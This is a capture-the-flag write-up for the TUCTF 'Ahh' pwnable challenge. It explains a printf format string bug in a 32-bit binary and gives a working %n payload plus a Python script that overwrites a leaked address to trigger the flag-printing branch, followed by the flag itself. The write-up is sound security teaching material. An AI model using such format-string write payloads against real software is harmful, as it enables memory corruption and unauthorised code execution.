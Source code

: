 # Ahh [Pwnable 433 points]

### Chall's description
```
Difficulty: easy
Whatever... I dunno

nc 18.222.213.102 12345
```

#### File given for the chall
* [ehh](./ehh)

## Solution

```
$ file ehh
eeh: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32 .......
```

When executed the code displays the following message:
```
>Input interesting text here< 0x565cb028
```

then, it requires an input from stdin by using the read(0,stack_address, 0x18), and after, printf(stack_address) .. Aaah the old dear format string bug/features..

So now de facto, the address (addr_1) that was previously printed 99,9% means something, start the gdb-peda routine
```
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
```
The executable seems to be compiled without canary, and during execution addr_1 is compared to 0x18, and if equals system("/bin/cat flag") is then executed.

So now we should try to write 0x18 to addr_1, by using the printf, for more info about format string vulnerabilities read this interesting 2001's paper: https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf


```
=> 0x565556ee <main+126>:	call   0x565554b0 <printf@plt>
   0x565556f3 <main+131>:	add    esp,0x10
   0x565556f6 <main+134>:	mov    eax,DWORD PTR [ebx+0x28]
   0x565556fc <main+140>:	cmp    eax,0x18
   0x565556ff <main+143>:	jne    0x56555713 <main+163>
Guessed arguments:
arg[0]: 0xffffd138 ("Hi there\n")
[------------------------------------stack-------------------------------------]
0000| 0xffffd120 --> 0xffffd138 ("Hi there\n")
0004| 0xffffd124 --> 0xffffd138 ("Hi there\n")
0008| 0xffffd128 --> 0x18 
0012| 0xffffd12c --> 0x0 
0016| 0xffffd130 --> 0xf7fa23fc --> 0xf7fa3200 --> 0x0 
0020| 0xffffd134 --> 0x56557000 --> 0x1ef0 
0024| 0xffffd138 ("Hi there\n")
0028| 0xffffd13c ("here\n")
[------------------------------------------------------------------------------]
```

looking the printf stack-view, we note that our string starts at 6th position (ignoring the first arg).
so in this scenario, (addr_1=0x565cb028), the right input, could be:  *\x28\xb0\x5c\x56%24u%6$n*

the printf understands that; print out the string, and write one-byte (value 24) at address *(esp - 6x4). understanding this we can get all the 4 bytes. For some reason %24u doesn't work so instead i used %20u.

We can now write a script, or try all in one line (e.g. if addr_1 is like "0x56623028" , so the input could be; "(0bV%20u%6$n" )

```python
#!/usr/bin/env python`
import sys, itertools, subprocess, struct

def conv(num):
	return struct.pack("<I",num)

def main(args):
	proc=subprocess.Popen(["./ehh"] , stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
	ret=proc.stdout.readline()
	ret=int( ret[ret.find("0x"):].rstrip(), 16)
	buf = conv(ret)
	buf += "%20u%6$n"
	proc.stdin.write(buf + "\n")
	proc.stdin.flush()
	ret=proc.stdout.readlines()
	print(ret)
```

# The Flag:
	TUCTF{pr1n7f_15_pr377y_c00l_huh}

